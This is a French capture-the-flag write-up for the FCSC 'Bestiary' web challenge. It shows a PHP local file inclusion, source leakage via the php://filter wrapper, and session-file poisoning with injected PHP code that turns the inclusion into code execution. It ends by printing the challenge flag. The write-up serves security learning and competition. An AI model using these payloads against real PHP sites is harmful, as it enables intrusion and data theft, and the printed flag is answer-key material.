

<b>Bestary</b>

=================
 
<blockquote>On vous demande simplement de trouver le flag.
</blockquote>
 
Donc on arrive sur une page comme celle-ci où l'on nous demande de choisir un monstre 

On choisit donc un monstre et on appuit sur "show description" et là on peut rearquer plusieurs choses

D'abord on peut voir que l'url à changée, '?monster' s'est rajouté avec comme paramètre le nom de notre monstre. C'est sûrement là que nous allons avoir une vulnérabilité, sûrement une LFI (Local File Inclusion) ou une RFI (Remote File Inclusion).
 
Ensuite nous pouvons également voir que notre PHPSESSID a changé en même temps que le monstre, ça pourrait nous aider plus tard.
 

Bref revenons à notre faille, on essaye alors d'inclure index.php en paramètre à '?monster' et on y arrive finalement en utilisant les wrappers :

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php

On reçoit alors le code source de index.php en base64, nous avons juste à le decoder, ce qui nous donne :

    <?php
	    session_save_path("./sessions/");
	    session_start();
	    include_once('flag.php');
    ?>
    <html>
    <head>
	    <title>Bestiary</title>
    </head>
    <body style="background-color:#3CB371;">
    
<h1>Bestiary</h1>

    

    

    <?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
    ?>
    

    <select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
    </select> <input type="button" value="show description" onclick="show()">
    
Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030
 
    </body>
    </html>

En lisant `session_save_path("./sessions/");` on peut déjà deviner le fichier dans lequel notre session sera stockée :

    http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_inserezvotrephpsessid

On peut alors voir que nous voyons le dernier monstre que nous avons visité. Mais si, vous ne vous rappelez pas ? Le cookie est changé en fonction du dernier monstre que nous avons regardé. 
C'est là que se trouve la vulnérabilité, si nous voulions afficher autre chose que le dernier monstre que nous avons regardé, il le serait totalement possible en changeant tout simplement le paramètre de 'monstre' dans l'index. 

Mais comment on a le flag ducoup ? 
Et bien vu que nous ne pouvons pas inclure le fichier 'flag.php', déjà inclus dans l'index.php, à cause de la fonction `include_once('flag.php');`.
Et bien il faut essayer de l'afficher sans l'inclure, ce que nous pouvons faire aisément avec les instructions `echo file_get_contents()` en php.
Essayons ça : 
 
 
On met met d'abord notre code en paramètre de 'monster'

    challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php') ?>

Ensuite il nous suffit d'inclure la path contenant notre session en exploitant la LFI 

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_votrephpsessid

La page ne nous retourne aucune erreur donc nous avons bien réussi à inclure le fichier, nous affichons le code source, et voilà notre fameux flag !

    monster|s:43:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";